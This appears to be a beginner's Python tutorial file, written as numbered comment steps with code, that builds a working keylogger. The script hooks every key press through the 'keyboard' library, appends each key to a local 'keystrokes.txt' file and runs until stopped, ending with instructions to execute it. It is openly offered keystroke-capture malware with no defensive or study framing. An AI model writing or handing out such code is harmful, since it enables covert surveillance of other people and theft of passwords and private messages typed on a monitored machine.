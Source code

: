 # keylogger
# who to create a keylogger in python using code .. 
# -------------*********-----------*********---------
# frist 1: step command 
# Ensure that you have the keyboard library installed 
# in your Python environment. Open your command prompt or terminal

# pip install keyboard

# Step 2: Importing the Necessary Libraries
# Begin by importing the keyboard library at the beginning of your Python script.
# This library will enable us to work with keyboard inputs. 
#import keyboard

import keyboard

# Step 3: Define the Log File
# Specify the name and location of the log file where the keystrokes will be saved.
# In this example, we’ll use ‘keystrokes.txt’ as the file name. Feel free to modify it as desired.
# log_file = 'keystrokes.txt'

log_file = 'keystrokes.txt'

# Step 4: Create the Key Press Event Function
# Define a function that will handle the key press events.
# This function will be called whenever a key is pressed.
# def on_key_press(event):
# with open(log_file, 'a') as f:
# f.write('{}\n'.format(event.name))

def on_key_press(event):
    with open(log_file, 'a') as f:
        f.write('{}\n'.format(event.name))

# 
# Inside the function, the ‘with open’ statement opens the log file in ‘append’ mode (‘a’).
# It creates a temporary file object named ‘f’.
# The ‘write’ method writes the name of the pressed key, obtained from ‘event.name’, to the file.
# The ‘{}\n’.format(event.name) inserts the key name into the string,
# and the ‘\n’ ensures each key is written on a new line.

# Step 5: Register the Key Press Event
# Register the ‘on_key_press’ function to be called whenever a key is pressed.
# This will enable our code to capture the keystrokes. 
keyboard.on_press(on_key_press)

# Step 6: Wait for Key Presses
# Finally, we want our program to wait until a key is pressed before it exits.
# Use the ‘keyboard.wait()’ function to accomplish this.

keyboard.wait()

# Step 7: Run the Code
# Save your Python script with a ‘.py’ extension (e.g., ‘keylogger.py’).
# Open your command prompt or terminal, navigate to the directory where the script is located,
# and execute the command:

#python3 keylogger.py

